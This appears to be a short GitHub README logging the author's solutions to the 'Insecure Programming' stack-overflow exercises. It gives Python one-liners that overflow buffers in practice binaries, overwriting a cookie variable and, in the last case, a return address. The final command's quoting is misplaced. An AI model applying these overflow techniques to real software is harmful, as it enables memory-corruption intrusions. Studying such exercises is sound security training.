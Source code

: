 This document is intended to contain all my solutions to the [Insecure Programming](https://github.com/deadbits/InsecureProgramming) excercises. I will update this document as I advance in the excercises.

####Stack excercises

1. `$ python -c "print 'A'*80 + chr(0x44) + chr(0x43) + chr(0x42) + chr(0x41)" | ./stack1`
2. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x3) + chr(0x2) + chr(0x1)" | ./stack2`
3. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x0) + chr(0x2) + chr(0x1)" | ./stack3`
4. This excercise it's a bit different, since one of the values being compared to `cookie` it's a newline (0xa). Because of this you can't, or at least I wasn't able to get the corresponding memory positions to be equal to the constant. Then, the idea is to directly overwrite the return address so it points where you need it. In order to do so, you need to overwrite more memory positions so you can reach the ones where the function's return address it's stored.
  
  `$ python -c "print 'A'*96 + chr(0xb9) + chr(0x84) + chr(0x04) + chr(0x08) | ./stack4"`
